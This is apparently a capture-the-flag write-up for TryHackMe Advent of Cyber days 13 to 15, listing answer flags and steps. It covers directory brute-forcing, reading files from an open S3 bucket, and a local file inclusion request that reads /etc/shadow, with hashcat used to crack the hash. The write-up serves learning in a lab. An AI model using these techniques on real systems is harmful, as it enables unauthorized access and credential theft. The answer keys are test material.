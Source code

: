 ## Day 13: Accumulate

1. A web server is running on the target. What is the hidden directory which the website lives on?

    ```bash
    #check the port
    nmap -sV <ip-addr>
    #search the directory using brute forcing
    ./dirsearch.py -u <ip-addr> -w ./DirBuster-Lists/directory-list-2.3-small.txt -e html
    Ans: /retro
    ```

2. Gain initial access and read the contents of user.txt.

    ```bash
    #1. Use the ipaddress and above route to go into the web page
    #2. In the webpage we can go to the wade who is the author
    #3. In read player one, there is a comment which consist of the password of wade
    #4. Now use remmina to use the terminal of the host

    sudo apt-get install remmina
    #run remmina
    #read the content of user.txt
    Ans: THM{HACK_PLAYER_ONE}
    ```

## Day 14: Unknown Storage

1. What is the name of the file you found?
    - Go to web browser and type
    - advent-bucket-one.region-name.amazonaws.com
    - Ans: employee_names.txt
2. What is in the file?
    - advent-bucket-one.region-name.amazonaws.com/employee_names.txt
    - Ans: mcchef

## Day 15: LFI

1. What is Charlie going to book a holiday to?
    - type the ip address on the browser
    - Ans: Hawaii
2. Read /etc/shadow and crack Charlies password.

    ```bash
    #type <ip-address>/?include=%2fetc%2fshadow
    #returns nothing new
    #intercept the request with burpsuite
    #change
    /get-file/%2fetc%2fshadow
    #return the password
    #store the password in file name charlie.txt
    #crack the password using hashcat
    hashcat -m 1800 charlie.txt rockyou.txt --force
    Ans: password1
    ```
